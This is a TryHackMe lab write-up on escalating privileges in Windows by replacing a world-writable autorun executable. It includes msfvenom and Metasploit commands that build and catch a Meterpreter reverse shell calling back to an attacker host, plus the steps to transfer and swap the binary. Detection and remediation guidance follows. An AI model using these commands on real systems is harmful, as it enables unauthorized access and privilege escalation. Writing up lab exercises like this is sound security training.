# Weak Autorun Permissions — Windows Privilege Escalation

> **Platform:** TryHackMe  
> **Room:** Windows PrivEsc Arena  
> **Operating System:** Windows 7 Professional  
> **Technique:** Writable Autorun Executable  
> **Initial User:** `TCM-PC\user`  
> **Privileged User:** `TCM-PC\TCM`  
> **Access Method:** Remote Desktop Protocol  
> **MITRE ATT&CK:** T1547.001 — Registry Run Keys / Startup Folder  
> **CWE:** CWE-732 — Incorrect Permission Assignment for Critical Resource

---

## Disclaimer

This write-up documents an authorized TryHackMe training environment.

Target addresses, VPN addresses, passwords, flags, and room answers have been removed or replaced with placeholders. The generated payload was used only inside the authorized laboratory and is not included in this repository.

---

## Executive Summary

The Windows host contained a machine-wide logon autorun entry named `My Program`. The entry instructed Windows to execute the following file whenever an applicable user logged on:

```text
C:\Program Files\Autorun Program\program.exe
```

Permission analysis showed that the built-in `Everyone` group had `FILE_ALL_ACCESS` over `program.exe`. This meant that a low-privileged user could overwrite or replace the executable even though it was located inside `C:\Program Files`.

A Meterpreter reverse-shell executable was generated and placed at the same path as the legitimate autorun program. The low-privileged user then logged off, and the privileged `TCM` account logged on.

During the privileged logon, Windows processed the autorun entry and launched the replacement executable in the security context of the logged-on account. The payload connected back to the Metasploit handler, resulting in a Meterpreter session as:

```text
TCM-PC\TCM
```

The vulnerability was not caused merely by the existence of an autorun entry. The underlying security problem was that an unprivileged user could modify an executable trusted and launched by a more privileged user.

---

## Attack Path

```text
Connect to the Windows host through RDP
                ↓
Authenticate as the low-privileged user
                ↓
Enumerate Windows logon autorun entries
                ↓
Discover the machine-wide "My Program" entry
                ↓
Identify the executable path:
C:\Program Files\Autorun Program\program.exe
                ↓
Inspect the executable's access control list
                ↓
Confirm Everyone has FILE_ALL_ACCESS
                ↓
Generate a Meterpreter reverse TCP executable
                ↓
Host the payload using a temporary HTTP server
                ↓
Download and replace program.exe
                ↓
Log off the low-privileged account
                ↓
Log on as the privileged TCM account
                ↓
Windows processes the autorun entry
                ↓
The replacement executable connects to Kali
                ↓
Meterpreter session opens as TCM-PC\TCM
```

---

# 1. Initial Access

The Windows system was accessed through Remote Desktop Protocol using `rdesktop`:

```bash
rdesktop <TARGET_IP> -g 95%
```

The `-g 95%` option configures the RDP window to use approximately 95 percent of the available screen size.



The initial session used the low-privileged local account:

```text
user
```



The purpose of the exercise was to determine whether this account could influence a program that would later execute under a more privileged user's context.

---

# 2. Autorun Enumeration

## What is an autorun entry?

Windows supports several mechanisms for automatically starting applications. These include:

- Registry `Run` keys
- Registry `RunOnce` keys
- Startup folders
- Scheduled tasks
- Services
- Winlogon components
- Explorer extensions

Programs configured under a logon autorun location are started when a user signs in.

Common registry locations include:

```text
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

The distinction between `HKLM` and `HKCU` is important:

- `HKLM` entries are machine-wide and generally apply to multiple users.
- `HKCU` entries apply only to the current user's profile.

A machine-wide entry is more interesting for privilege escalation because a low-privileged user may be able to alter a referenced executable before a privileged user logs on.

## Tools used

The Windows laboratory contained several Sysinternals and privilege-escalation utilities:



The important tools for this technique were:

```text
Autoruns
AccessChk
```

### Autoruns

Autoruns is a Microsoft Sysinternals utility that enumerates applications configured to start automatically.

It provides a centralized view of startup locations that would otherwise require manually inspecting numerous registry keys, folders, services, drivers, and scheduled components.

### AccessChk

AccessChk is a Sysinternals utility used to inspect effective access permissions on securable Windows objects, including:

- Files
- Directories
- Registry keys
- Services
- Processes
- Named pipes

Autoruns identifies what Windows will execute. AccessChk determines who can modify it.

---

# 3. Discovering the Vulnerable Entry

Autoruns was launched using:

```cmd
C:\Users\user\Desktop\Tools\Autoruns\Autoruns64.exe
```

The `Logon` tab was selected and the results were filtered for:

```text
My Program
```

Autoruns identified the following machine-wide registry entry:

```text
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

The entry named `My Program` pointed to:

```text
C:\Program Files\Autorun Program\program.exe
```



This revealed an important trust relationship:

```text
Windows trusts program.exe as a logon application
```

The next question was therefore:

```text
Can the low-privileged user modify program.exe?
```

The autorun entry itself did not need to be modified. If the executable at the trusted path could be replaced, Windows would still follow the existing registry instruction but execute attacker-controlled code.

---

# 4. Analyzing the File Permissions

The permissions of the autorun program were examined with AccessChk:

```cmd
C:\Users\user\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

It is also useful to inspect the executable directly:

```cmd
C:\Users\user\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program\program.exe"
```

The output showed:

```text
RW Everyone
    FILE_ALL_ACCESS
```



## Understanding the command options

```text
-w
```

Displays objects for which write-related permissions exist.

```text
-v
```

Enables verbose output and shows detailed permission names.

```text
-u
```

Suppresses certain access-denied errors, making the results easier to read.

The combined option:

```text
-wvu
```

asks AccessChk to display writable objects with verbose permission details while suppressing unhelpful access errors.

## What is the Everyone group?

`Everyone` is a broad built-in Windows security principal. A normal local user generally receives permissions assigned to this group.

Giving `Everyone` full access to a sensitive executable means that ordinary users may be able to alter code that Windows later executes.

## What does FILE_ALL_ACCESS mean?

`FILE_ALL_ACCESS` includes extensive control over a file. Depending on the object's access control list, it may allow operations such as:

- Reading the file
- Writing to the file
- Appending data
- Executing the file
- Deleting the file
- Replacing the file
- Changing attributes
- Modifying permissions
- Taking ownership

For this attack, the critical permissions were the ability to write, replace, or delete the executable.

The low-privileged user could therefore replace the legitimate program with another executable using the same filename.

---

# 5. Why the Permission Is Dangerous

The vulnerable configuration created the following trust violation:

```text
A low-privileged user controls code executed by a privileged user
```

The registry still pointed to:

```text
C:\Program Files\Autorun Program\program.exe
```

Windows did not need to know that the contents of `program.exe` had changed. Unless another security control blocked execution, Windows would start whichever executable existed at that path.

Before replacement:

```text
Registry autorun entry
        ↓
C:\Program Files\Autorun Program\program.exe
        ↓
Legitimate program
```

After replacement:

```text
Registry autorun entry
        ↓
C:\Program Files\Autorun Program\program.exe
        ↓
Meterpreter payload
```

This technique is commonly described as:

- Weak autorun permissions
- Writable autorun executable
- Startup binary replacement
- Autorun binary hijacking
- Insecure file permissions

---

# 6. Preparing the Metasploit Handler

On Kali, Metasploit was started:

```bash
msfconsole
```

A generic handler was configured:

```text
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <KALI_VPN_IP>
set LPORT 4444
set ExitOnSession false
run
```



## What does multi/handler do?

`exploit/multi/handler` does not exploit the Windows system by itself.

It acts as a listener that waits for a compatible Metasploit payload to connect back.

The actual privilege-escalation vulnerability was the writable autorun executable. Metasploit was used only to receive and manage the resulting reverse connection.

## Payload components

```text
windows
```

The target operating system is Windows.

```text
meterpreter
```

The resulting session uses Meterpreter rather than a basic command shell.

```text
reverse_tcp
```

The Windows host initiates an outbound TCP connection to Kali.

This direction is useful because outbound traffic is often permitted more readily than unsolicited inbound connections.

## LHOST

```text
LHOST <KALI_VPN_IP>
```

`LHOST` is the reachable Kali address embedded in the payload.

In a TryHackMe environment, this is normally the address assigned to the VPN interface:

```bash
ip addr show tun0
```

The target must be able to route traffic to this address.

## LPORT

```text
LPORT 4444
```

`LPORT` is the TCP port on which the Metasploit handler waits.

The port must match in both:

- The handler configuration
- The generated payload

---

# 7. Generating the Replacement Executable

The reverse-shell executable was generated with `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=<KALI_VPN_IP> \
LPORT=4444 \
-f exe \
-o program.exe
```



## Command explanation

### Payload selection

```bash
-p windows/meterpreter/reverse_tcp
```

Creates a 32-bit Windows Meterpreter reverse TCP payload.

The screenshot confirms that Metasploit automatically selected:

```text
arch: x86
```

This was compatible with the Windows 7 laboratory environment.

### Callback address

```bash
LHOST=<KALI_VPN_IP>
```

Embeds the Kali callback address into the executable.

### Callback port

```bash
LPORT=4444
```

Embeds the callback port.

### Output format

```bash
-f exe
```

Packages the payload as a Windows Portable Executable file.

### Output filename

```bash
-o program.exe
```

Saves the generated payload using the exact filename referenced by the autorun entry.

The matching filename is essential because the registry entry already expects:

```text
program.exe
```

---

# 8. Hosting the Payload

A temporary Python HTTP server was started from the directory containing the generated executable:

```bash
python3 -m http.server 80
```



The server listened on:

```text
0.0.0.0:80
```

This means it accepted HTTP connections on port 80 through all available Kali interfaces.

The server log later showed:

```text
GET /program.exe HTTP/1.1 200
```

The `200` status confirmed that the Windows host successfully requested and downloaded the file.

---

# 9. Transferring the Payload to Windows

From the Windows browser, the Kali HTTP server was accessed using:

```text
http://<KALI_VPN_IP>/
```

The directory listing exposed the generated file:

```text
program.exe
```



The generated executable was then placed at:

```text
C:\Program Files\Autorun Program\program.exe
```



This operation succeeded because the low-privileged account inherited the overly permissive `FILE_ALL_ACCESS` permission through the `Everyone` group.

The trusted path did not change. Only the executable stored at that path was replaced.

---

# 10. Triggering the Autorun

The low-privileged user logged off after replacing the executable.

The privileged account used in the laboratory was:

```text
TCM
```



During Windows logon, the operating system performs several actions:

1. Authenticates the user.
2. Creates the user's access token.
3. Loads the user profile.
4. Starts the Windows shell.
5. Processes applicable machine-wide logon autorun entries.
6. Executes the programs referenced by those entries.

Because `My Program` was stored under a machine-wide `HKLM` Run key, it was processed when the privileged account logged on.

Windows therefore attempted to execute:

```text
C:\Program Files\Autorun Program\program.exe
```

At this point, that path contained the Meterpreter payload rather than the original program.

---

# 11. Understanding the Security Warning

Windows displayed an `Open File - Security Warning` dialog before launching the executable:



The dialog showed:

```text
Publisher: Unknown Publisher
```

and warned that the executable did not contain a trusted digital signature.

## Why did the warning appear?

The executable had been downloaded through Internet Explorer over HTTP. Windows Attachment Manager can mark downloaded files with a security-zone identifier.

On NTFS, this information may be stored in an alternate data stream named:

```text
Zone.Identifier
```

This is commonly called the **Mark of the Web**.

Conceptually:

```text
program.exe
program.exe:Zone.Identifier
```

The alternate data stream records that the file came from an untrusted or Internet-associated zone. Windows may then display a confirmation prompt before execution.

The prompt is therefore separate from the autorun vulnerability.

The vulnerability allowed the low-privileged user to replace the executable. The security warning was an additional Windows protection that required user confirmation before the downloaded unsigned payload could run.

After `Run` was selected, the executable launched under the privileged user's context.

## Security significance

This warning reduced the reliability and stealth of the attack because execution was not completely silent.

In a different environment, the warning might not appear when:

- The file was created locally instead of downloaded through a browser.
- The `Zone.Identifier` stream was absent.
- Attachment Manager policies were configured differently.
- A signed and trusted executable was used.
- Another transfer method did not preserve the Mark of the Web.

The prompt did not correct the insecure permissions. It only introduced an additional execution decision.

---

# 12. Receiving the Privileged Session

After the executable ran, the Metasploit handler received a connection:

```text
Meterpreter session 1 opened
```

The session was inspected using:

```text
sessions
sessions -i 1
```

The user context was checked with:

```text
getuid
```

The output showed:

```text
Server username: TCM-PC\TCM
```



This confirmed that the replacement executable ran under the `TCM` account rather than the original low-privileged `user` account.

The privilege transition was therefore:

```text
TCM-PC\user
        ↓
TCM-PC\TCM
```

---

# 13. Account Identity Versus Token Elevation

`getuid` confirms which account owns the Meterpreter process:

```text
TCM-PC\TCM
```

However, an administrator account and a fully elevated process are not always identical.

When User Account Control is enabled, an administrator may operate with:

- A filtered medium-integrity token
- A full high-integrity administrative token

Additional verification can be performed using:

```text
getprivs
```

Then enter a Windows shell:

```text
shell
```

Run:

```cmd
whoami
whoami /groups
whoami /priv
```

Useful evidence includes:

- Membership in the local Administrators group
- High mandatory integrity level
- Administrative Windows privileges
- Access to protected resources

Because the available screenshot proves execution as `TCM-PC\TCM`, the write-up should state that the payload inherited the `TCM` account context. It should not claim `NT AUTHORITY\SYSTEM`, because the session output does not show SYSTEM.

---

# 14. What Happened Behind the Scenes

The complete internal process can be represented as:

```text
Low-privileged user discovers a machine-wide Run entry
                    ↓
The Run entry references program.exe
                    ↓
Windows ACL allows Everyone to modify program.exe
                    ↓
The low-privileged user replaces the executable
                    ↓
The original registry entry remains unchanged
                    ↓
TCM authenticates to Windows
                    ↓
Windows creates the TCM logon session and access token
                    ↓
Windows starts the user shell
                    ↓
The shell processes the HKLM Run entry
                    ↓
Windows opens program.exe
                    ↓
The downloaded file triggers an Attachment Manager warning
                    ↓
The privileged user selects Run
                    ↓
program.exe executes under the TCM user context
                    ↓
The Meterpreter stager creates an outbound TCP connection
                    ↓
Metasploit sends the Meterpreter stage
                    ↓
A session opens on Kali as TCM-PC\TCM
```

The central security failure was:

```text
The operating system trusted an executable that an untrusted user could modify.
```

---

# 15. Why the Attack Worked

The attack required several conditions:

1. A machine-wide logon autorun entry existed.
2. The entry referenced a predictable executable path.
3. The low-privileged user could modify or replace the executable.
4. A more privileged user later logged on.
5. The privileged account processed the same autorun entry.
6. The target could reach the Kali VPN address.
7. The payload and handler configurations matched.
8. Port `4444` was not blocked.
9. The user accepted the executable security warning.
10. No antivirus, EDR, AppLocker, or WDAC policy blocked the payload.

If any of these conditions were absent, exploitation might fail even though the file permissions remained insecure.

---

# 16. Security Classification

## Weakness

```text
Weak File Permissions on an Autorun Executable
```

## Attack type

```text
Binary Replacement / Autorun Hijacking
```

## Security impact

```text
Local Privilege Escalation
```

## MITRE ATT&CK

```text
T1547.001 — Registry Run Keys / Startup Folder
```

This technique covers the abuse of registry Run keys and startup locations for execution during user logon. It may support persistence or privilege escalation depending on which user processes the entry.

## CWE

```text
CWE-732 — Incorrect Permission Assignment for Critical Resource
```

The executable was a security-sensitive resource because Windows automatically executed it during logon.

---

# 17. Detection Opportunities

Defenders could identify this activity through several sources.

## Registry monitoring

Monitor changes and existing entries under:

```text
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

## File integrity monitoring

Monitor modifications to executables referenced by startup entries, particularly under:

```text
C:\Program Files
C:\Program Files (x86)
C:\ProgramData
```

## Permission auditing

Search for startup executables writable by:

```text
Everyone
Users
Authenticated Users
Domain Users
```

## Network monitoring

Detect unusual outbound connections from startup applications to untrusted addresses or uncommon ports.

## Endpoint monitoring

Alert on:

- Unsigned executables launched from trusted program directories
- Startup binary replacement
- Meterpreter-like network behavior
- Processes launched shortly after interactive logon
- Executables with unexpected hashes or publishers

---

# 18. Remediation

The executable and parent directory should follow least-privilege permissions.

A secure permission model would normally resemble:

```text
SYSTEM          Full Control
Administrators  Full Control
Users           Read and Execute
```

Recommended remediation actions include:

- Remove write, modify, and full-control permissions from `Everyone`.
- Remove unnecessary write permissions from `Users` and `Authenticated Users`.
- Ensure only `SYSTEM`, trusted installers, and administrators can modify files under `Program Files`.
- Review permissions inherited from parent directories.
- Audit all executables referenced by `Run` and `RunOnce` entries.
- Remove unnecessary autorun entries.
- Deploy file integrity monitoring for startup executables.
- Use AppLocker or Windows Defender Application Control.
- Require trusted code signing where operationally possible.
- Alert when unsigned programs execute from protected application directories.
- Monitor changes to startup registry keys and referenced binaries.

Correcting only the registry entry would not be enough if similar writable startup programs existed elsewhere. The organization should audit both the autorun configuration and every executable in its execution path.

---

# 19. Lessons Learned

An autorun entry is not inherently a vulnerability. The weakness appears when an unprivileged user can control the program that the entry launches.

The most important lesson from this technique is:

> A privileged startup mechanism is only as secure as the permissions protecting its executable and parent directories.

This attack also demonstrates why privilege-escalation enumeration must examine relationships between configuration and permissions.

Autoruns answered:

```text
What will Windows execute?
```

AccessChk answered:

```text
Who can modify it?
```

Combining those answers exposed the privilege-escalation path.

---

## Tools Used

| Tool | Purpose |
|---|---|
| `rdesktop` | Remote Desktop connection to the Windows host |
| Autoruns | Enumerate Windows startup and logon execution entries |
| AccessChk | Inspect effective file and directory permissions |
| Metasploit Framework | Receive and manage the reverse connection |
| msfvenom | Generate the Windows Meterpreter executable |
| Python HTTP server | Transfer the generated executable to the lab host |

---

## References

- Microsoft Sysinternals Autoruns
- Microsoft Sysinternals AccessChk
- MITRE ATT&CK T1547.001 — Registry Run Keys / Startup Folder
- CWE-732 — Incorrect Permission Assignment for Critical Resource
- Microsoft documentation on User Account Control
- Microsoft documentation on Attachment Manager and Windows security zones
